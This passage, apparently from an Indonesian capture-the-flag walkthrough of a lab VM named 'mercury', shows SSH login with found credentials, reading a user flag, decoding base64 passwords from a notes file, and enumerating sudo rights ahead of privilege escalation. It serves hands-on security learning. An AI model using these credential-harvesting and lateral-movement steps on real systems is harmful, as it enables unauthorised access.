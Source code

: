 disini kita bisa melihat password dan username, bisa dicoba menggunakan ssh, karena port 22/ssh dibuka. `ssh username@192.168.56.112` kemudian input password.

Setelah aku coba semua user dan password, yang bisa hanya:

```bash
$ ssh webmaster@192.168.56.112
```

setelah masuk, kemudian mgencek isi dari directory yang ada sekarang, ternyata mendapatkan user flag.

```bash
webmaster@mercury:~$ ls
mercury_proj  user_flag.txt

webmaster@mercury:~$ cat user_flag.txt 
[user_flag_8339915c9a454657bd60ee58776f4ccd]
```

kemudian aku menemukan user dan password baru, yaitu `linuxmaster` yang ternyata bisa di ssh.

```bash
webmaster@mercury:~/mercury_proj$ ls
db.sqlite3  manage.py  mercury_facts  mercury_index  mercury_proj  notes.txt
webmaster@mercury:~/mercury_proj$ cat notes.txt 
Project accounts (both restricted):
webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
```

disitu terlihat seperti base64, jadi langsung aja decode dan login menggunakan hasil decode itu.

```bash
webmaster@mercury:~/mercury_proj$ echo "bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==" | base64 -d
mercurymeandiameteris4880km
```

login ssh

```bash
$ ssh linuxmaster@192.168.56.112
linuxmaster@192.168.56.112's password: 

linuxmaster@mercury:~$ 
```

disini aku mencoba `sudo su` untuk login menjadi super user, ternyata tidak bisa, kemudian aku lanjut menggunakan `sudo -l` dan terdapat clue disini

```bash
linuxmaster@mercury:~$ sudo su
[sudo] password for linuxmaster: 
Sorry, user linuxmaster is not allowed to execute '/usr/bin/su' as root on mercury.
linuxmaster@mercury:~$ sudo -l
[sudo] password for linuxmaster: 
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh
```

